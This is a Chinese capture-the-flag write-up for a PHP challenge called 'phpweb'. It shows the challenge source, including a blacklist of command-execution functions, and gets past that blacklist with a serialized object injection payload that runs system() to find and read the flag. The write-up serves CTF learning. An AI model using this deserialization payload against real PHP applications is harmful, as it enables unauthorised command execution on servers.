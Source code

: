 # 朱雀组
## 0x01 phpweb

关键词：反序列化，代码注入

进入界面，开幕雷击

抓包发现变量func和p，猜测func是待执行的函数，p为func的参数

![image-20210227162119517](C:\Gitbook\Import\heart1ess_s_ctf\assets\wdb1.png)

更改func为readfile或file_get_contents，p改为index.php尝试获取index.php的源代码

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

源码发现Test类中调用gettime函数，gettime函数中存在函数执行，并且disabled_function中并无unserialize，因而可以通过反序列化进行执行

反序列化代码段：

```
<?php
    class Test {
        var $p = "cat $(find / -name flag*)";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
            echo gettime($this->func, $this->p);
            }
        }
    }
    $a = new Test();
    echo urlencode(serialize($a));
?>
```

最终payload: 

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";}
```

成功获取flag

![image-20210227163130046](C:\Gitbook\Import\heart1ess_s_ctf\assets\wdb2.png)




